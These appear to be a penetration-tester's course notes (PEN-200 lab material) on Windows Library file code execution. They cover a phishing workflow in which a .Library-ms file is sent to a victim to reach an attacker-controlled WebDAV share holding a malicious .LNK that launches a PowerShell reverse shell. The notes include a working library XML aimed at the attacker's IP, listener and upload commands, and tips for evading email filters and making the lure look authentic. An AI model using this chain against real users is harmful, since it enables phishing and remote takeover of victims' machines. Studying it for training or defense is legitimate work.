 # Windows Library Files Code Execution
- 12.3.1 in Pen-200
- .Library-ms extension
- General idea is sending our Target/Victim a Windows Library File.
- Victim receives a .Library-ms file, perhaps via email.
- Once the Library file is opened by the target, it will connect them to a  a WebDav share that we control.
- Becuase it is a library, it appears as a regular directory in Windows Explorer. 
- We'll populate the WebDAV directory/share with a .LNK file or other malicious file, that executes a PowerShell RevShell. User must click the .LNK payload to execute.
NOTE: The reason we don't just send the link, is to bypass email filter, spam filter, as a lot of the security technologies will ALLOW the .Library-ms file, but not the .LNK.

## SMB Upload
```bash
smbclient //192.168.205.195/share -c 'put config.Library-ms'
```

## Recieving Connection
1. Launch Library listener, WebDAV
```bash
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/hacking/tools/webdav/
# test at 127.0.0.1 in browser
```
2. ncat listener on whatever port is specified in the LNK file
3. python http server to host powercat, (IF LNK specifies powercat usage). 
4. Place evil LNK or malicous file in directory referenced in step 1 **/webdav/**

## Create Library-ms file
- Name `config.Library-ms`
- written in XML to specify parameters for accessing remote locations
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.158</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>


<!--
<name>@windows.storage.dll,-34582</name>
This specifies the name of the library, not arbitrary

<version>6</version>
this can be whatever we want

<isLibraryPinned>true</isLibraryPinned>
Pin to navigation in explorer, makes it feel authentic

<iconReference>imageres.dll,-1003</iconReference>
What ICON is displayed to user, use imagesres.dll to choose between windows icons
-1002 = Documents folder icon,  -1003 = Pictures folder icon

<templateInfo> <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType> </templateInfo>
GUID is valid Documents guid.. 

<url>http:/192.168.45.158</url>  - KALI IP
-->
```
- Now when we launch that, we should see our test.txt file, being served by our WebDAV share on KALI
- After connecting, you'll notice Windows modified some parts of the file, which may/will break it if you try to move it to an other machine
